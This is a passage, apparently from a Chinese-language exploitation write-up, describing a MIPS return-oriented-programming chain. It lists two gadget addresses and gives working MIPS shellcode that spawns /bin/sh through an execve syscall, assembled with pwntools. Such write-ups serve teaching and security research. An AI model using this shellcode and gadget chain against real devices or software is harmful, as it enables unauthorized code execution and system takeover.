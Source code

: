 [![](assets/1705903019-cf859d7830da4809598795eb466638f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192636-c561e358-b786-1.png)  
这里我们可以控制fp指向一个执行a2的gadget，然后在sp+0x68+var\_10的位置写gadget即可  
这里我们找到了可以去执行a2的gadget

[![](assets/1705903019-79ca75dff0c26330b6f09e70e27e57a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192646-cbc14a68-b786-1.png)  
所以最后就用这两个gadget即可  
0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后我们找一段gadget去用既可  
直接生成的太长，从网上找了个

```plain
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)
```
